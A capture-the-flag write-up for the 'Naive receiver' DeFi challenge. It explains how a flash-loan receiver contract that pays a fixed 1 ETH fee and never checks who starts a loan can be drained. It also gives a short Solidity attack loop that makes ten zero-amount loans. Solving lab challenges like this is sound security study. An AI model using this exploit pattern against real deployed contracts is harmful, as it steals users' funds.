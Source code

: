 ## Naive receiver

### Challenge description

> There's a lending pool offering quite expensive flash loans of Ether, which has 1000 ETH in balance.
>
> You also see that a user has deployed a contract with 10 ETH in balance, capable of interacting with the lending pool and receiveing flash loans of ETH.
>
> Drain all ETH funds from the user's contract. Doing it in a single transaction is a big plus ;)

### Solution

The receiver contract will forward `amountToBeRepaid` to the pool, which includes the pool fee:

```solidity
uint256 amountToBeRepaid = msg.value + fee;
```

And the pool will always charge a fixed fee of 1 ETH in `flashLoan()`:

```solidity
require(
    address(this).balance >= balanceBefore + FIXED_FEE,
    "Flash loan hasn't been paid back"
);
```

Given that the `receiveEther()` function does not check for a `msg.value` and that the contract doesn't check that `tx.origin` comes from the deployer of the receiver contract (whoever owns it), it is possible to drain its balance and send it to the pool in either 10 transactions with a `borrowAmount` of 0 wei or in one transaction in a short contract which performs a loop:

```solidity
function attack() public {
    for (uint8 i = 0; i < 10; i++) {
        naiveReceiverPool.flashLoan(address(naiveReceiver), 0);
    }
}
```
